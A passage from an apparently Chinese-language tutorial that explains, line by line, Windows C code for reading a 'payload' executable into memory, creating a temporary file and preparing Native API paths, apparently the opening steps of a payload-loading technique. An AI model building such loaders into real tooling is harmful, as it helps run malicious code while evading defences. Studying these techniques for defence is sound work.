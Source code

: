 ```php
*Size = GetFileSize(hFile, NULL);
PVOID buffer = VirtualAlloc(NULL, *Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

**GetFileSize**函数功能是得到句柄对应文件的大小，**VirtualAlloc**函数功能是申请一块内存，这两行代码在为读取payload到内存中做准备。  
`BOOL Code = ReadFile(hFile, buffer, *Size, &ReadByte, NULL);`通过调用**ReadFile**函数读取payload到内存中。

**ReadFile**定义

```php
BOOL ReadFile(
  [in]                HANDLE       hFile,
  [out]               LPVOID       lpBuffer,
  [in]                DWORD        nNumberOfBytesToRead,
  [out, optional]     LPDWORD      lpNumberOfBytesRead,
  [in, out, optional] LPOVERLAPPED lpOverlapped
);
```

**ReadFile**函数功能是从一个文件句柄中读取数据到指定缓冲区，**hFile**要读取文件的句柄，**lpBuffer**接收读取文件数据的缓冲区指针，**nNumberOfBytesToRead**代表读取多少数据(字节)，**lpNumberOfBytesRead**代表读取了多少字节，**lpOverlapped**为NULL即可。

main函数解析
--------

因为代码比较长，所以我们一部分一部分的看。

```php
InitFunc();
DWORD bufSize = 0;
PVOID buf=ReadFile2Memory(L"C:\\Users\\Admin\\Desktop\\test.exe",&bufSize);//读取文件到内存中
WCHAR tmpPath[MAX_PATH] = {0}; 
WCHAR tmpFilePath[MAX_PATH] = { 0 };
GetTempPathW(MAX_PATH, tmpPath);
GetTempFileNameW(tmpPath, L"R", 0, tmpFilePath);
```

**GetTempPathW**函数功能是，得到系统存储临时文件的路径，并把路径返回到第二个参数指向的缓冲区中，第一个参数是缓冲区的大小。

**GetTempFileNameW**函数功能是，在tmpPath目录下下生成一个临时文件，这个文件的名字是以R开头的，然后返回生成临时文件的路径到tmpFilePath中。

代码首先调用了**InitFunc**函数初始化Native系列api，然后调用**ReadFile2Memory**函数读取文件到内存中，并返回读取文件的大小，接着创建了一个临时文件，并返回了临时文件的路径。

```php
HANDLE hFile = NULL;
WCHAR t_Path[MAX_PATH] = { L"\\??\\" };
StringCchCatExW(t_Path, MAX_PATH, tmpFilePath, NULL, NULL, NULL);
UNICODE_STRING uString = { 0 };
RtlInitUnicodeString(&uString, t_Path);//使用t_path的路径字符串初始化ustring结构
```

**StringCchCatExW**函数功能是拼接字符串，第一个参数是目标缓冲区，此缓冲区中包含要与第三个参数连接的字符串，它们连接的结果会存放到此缓冲区中，第二个参数是目标缓冲区的大小，第三个参数是要与目标缓冲区连接的字符串，剩下的参数为NULL即可。

**UNICODE\_STRING**结构定义

```php
typedef struct _UNICODE_STRING {
  USHORT Length;//缓冲区中字符串的长度
  USHORT MaximumLength;//缓冲区的大小
  PWSTR  Buffer;//指向字符串的指针
} UNICODE_STRING, *PUNICODE_STRING;
```
